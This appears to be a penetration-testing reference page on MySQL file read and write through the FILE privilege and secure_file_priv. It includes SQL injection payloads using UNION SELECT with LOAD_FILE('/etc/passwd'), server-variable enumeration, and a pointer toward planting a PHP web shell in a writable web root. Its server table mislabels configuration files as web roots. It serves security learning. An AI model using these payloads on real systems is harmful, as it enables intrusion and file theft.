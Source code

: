 {% hint style="warning" %}
The `FILE` privilege is needed to both `read` and `write` files.
{% endhint %}

In MySQL, the ability to read from or write to files requires the `FILE` privilege, and is further controlled by the global system variable `secure_file_priv`. This variable restricts file operations to a specific directory:

* If set to a directory path, operations like `LOAD_FILE` and `SELECT ... INTO OUTFILE` are limited to that path.
* If set to `NULL`, these operations are completely disabled.
* If empty, there are no restrictions—this is insecure but allows unrestricted file I/O.

```sql
# Check current setting
SELECT @@GLOBAL.secure_file_priv;
```

If permitted, <mark style="background-color:yellow;">files can be written</mark> using the `SELECT ... INTO OUTFILE` clause. The target directory must be writable by the OS user running MySQL. For example:

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt';
```

To <mark style="color:yellow;">read files</mark>:

```sql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt');
```

If the server is insecurely configured (e.g., `secure_file_priv` is empty), sensitive files may be readable:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

An attacker with `FILE` privileges may exploit SQLi to:

* Read files using `LOAD_FILE()`
* Write files using `INTO OUTFILE`
* Query sensitive tables and variables like `mysql.user` or `information_schema.global_variables`

{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4--
a' UNION SELECT 1, user(), 3, 4--
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"--
```
{% endcode %}

If the MySQL server is running in a web environment and the <mark style="background-color:yellow;">web root is known and writable</mark>, it may be possible to write a PHP web shell. To enumurate the webroot the `LOAD_FILE` clause can be used to read the server configuration.

<table><thead><tr><th width="144">Server</th><th>Web Root Directory</th></tr></thead><tbody><tr><td>Apache</td><td><code>/etc/apache2/apache2.conf</code></td></tr><tr><td>Nginx</td><td><code>/etc/nginx/nginx.conf</code></td></tr><tr><td>ISS</td><td><code>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</code></td></tr></tbody></table>
